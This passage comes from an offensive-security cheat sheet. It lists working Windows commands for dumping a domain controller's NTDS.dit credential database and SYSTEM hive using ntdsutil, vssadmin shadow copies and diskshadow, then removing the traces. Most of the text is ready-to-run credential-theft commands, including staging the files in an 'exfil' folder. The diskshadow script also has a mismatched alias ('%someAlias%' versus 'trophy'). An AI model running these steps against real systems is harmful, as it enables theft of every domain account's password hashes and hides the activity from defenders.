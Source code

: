 ### Method 2

Using the _ntdsutil_ utility we can also dump the **NTDS.dit**, however this was blocked by my AV.

```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```


### Method 3

Use the DC's _vssadmin_ application to create a volume shadow copy.

```powershell
vssadmin.exe create shadow /for=c:
```

Next create the exfil directory and copy the **NTDS.dit** from the shadow copy there.

```powershell
mkdir c:\exfil
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\ntds\ntds.dit C:\exfil\ntds.dit
```

Also extract the **SYSTEM** key from the registry or shadow copy so that we can extract the hashes.

```powershell
reg save hklm\SYSTEM C:\exfil\system
```

Once we have exfiltrated the data to our attacking machine we can clean up.

```powershell
vssadmin.exe delete shadows /for=c:
rmdir c:\exfil
```


### Method 4

On Server 2008 or later we can use _diskshadow_ to dump the **NTDS.dit**, first create a _shadowdisk.exe_ script to create a shadow disk copy of **C:** this can be called **shadow.txt**:


```powershell
set context persistent nowriters
set metadata c:\exfil\metadata.cab
add volume c: alias trophy
create
expose %someAlias% z:
```

Execute it
```powershell
mkdir c:\exfil
diskshadow.exe /s C:\users\Administrator\Desktop\shadow.txt
cmd.exe /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
```

Lastly we need to cleanup inside the interactive _diskshadow_ utility:
```powershell
diskshadow.exe
    > delete shadows volume trophy
    > reset
```
